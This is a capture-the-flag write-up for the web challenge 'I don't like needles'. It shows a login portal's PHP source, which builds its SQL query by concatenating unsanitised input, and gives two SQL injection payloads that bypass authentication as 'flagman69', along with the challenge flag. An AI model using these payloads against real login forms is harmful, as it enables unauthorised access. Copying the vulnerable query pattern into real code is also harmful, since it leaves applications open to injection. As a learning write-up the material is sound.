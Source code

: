 # Web: I don't like needles

## Challenge
> They make me SQueaL!
> http://challs.houseplant.riceteacatpanda.wtf:30001
> Dev: Tom

## Solution
The name of the challenge seems to be related to SQL injection.\
The webpage contains an authentication form. The HTML source contains an interesting comment.\

``` html
<!DOCTYPE html>
<html>
<head>
    <title>Super secure login portal</title>

    <style>
        .container {
            position: absolute;
            left: 50%;
            top: 50%;
            transform: translate(-50%, -50%);
        }

        body {
            font-family: sans-serif;
        }

    </style>

</head>
<body>

    <div class="container">
    <h1>Super secure login portal</h1>

    <!-- ?sauce -->

    
    <form method="POST">
        <span>Username: </span><input type="text" name="username">
        <br>
        <br>
        <span>Password: </span><input type="password" name="password">
        <br>
        <br>
        <input type="submit">
    </form>
    </div>

</body>
</html>
```

Connecting to `http://challs.houseplant.riceteacatpanda.wtf:30001/?sauce` webpage you can read the source code.\

```php
<?php

    // error_reporting(0);

    if (isset($_GET['sauce'])) {
        show_source("index.php");
        die();
    }

?>

<!DOCTYPE html>
<html>
<head>
    <title>Super secure login portal</title>

    <style>
        .container {
            position: absolute;
            left: 50%;
            top: 50%;
            transform: translate(-50%, -50%);
        }

        body {
            font-family: sans-serif;
        }

    </style>

</head>
<body>

    <div class="container">
    <h1>Super secure login portal</h1>

    <!-- ?sauce -->

    <?php

        if ($_SERVER['REQUEST_METHOD'] == "POST") {
            
            require("config.php");

            if (isset($_POST["username"]) && isset($_POST["password"])) {

                $username = $_POST["username"];
                $password = $_POST["password"];

                if (strpos($password, "1") !== false) {
                    echo "<p style='color: red;'>Auth fail :(</p>";
                } else {

                    $connection = new mysqli($SQL_HOST, $SQL_USER, $SQL_PASS, $SQL_DB);
                    $result = mysqli_query($connection, "SELECT * FROM users WHERE username='" . $username . "' AND password='" . $password . "'", MYSQLI_STORE_RESULT);
                    
                    if ($result === false) {
                        echo "<p style='color: red;'>I don't know what you did but it wasn't good.</p>";
                    } else {
                        if ($result->num_rows != 0) {
                            if (mysqli_fetch_array($result, MYSQLI_ASSOC)["username"] == "flagman69") {
                                echo "<p style='color: green;'>" . $FLAG . " :o</p>";
                            } else {
                                echo "<p style='color: green;'>Logged in :)</p>";
                            }
                        } else {
                            echo "<p style='color: red;'>Auth fail :(</p>";
                        }
                    }
                    
                }
            }
        }

    ?>

    <form method="POST">
        <span>Username: </span><input type="text" name="username">
        <br>
        <br>
        <span>Password: </span><input type="password" name="password">
        <br>
        <br>
        <input type="submit">
    </form>
    </div>

</body>
</html>
```
- Try:
`username=flagman69'or'1'='1--&password=admin`
Or\
`username=flagman69'#&password=`

Flag: `rtcp{y0u-kn0w-1-didn't-mean-it-like-th@t}`

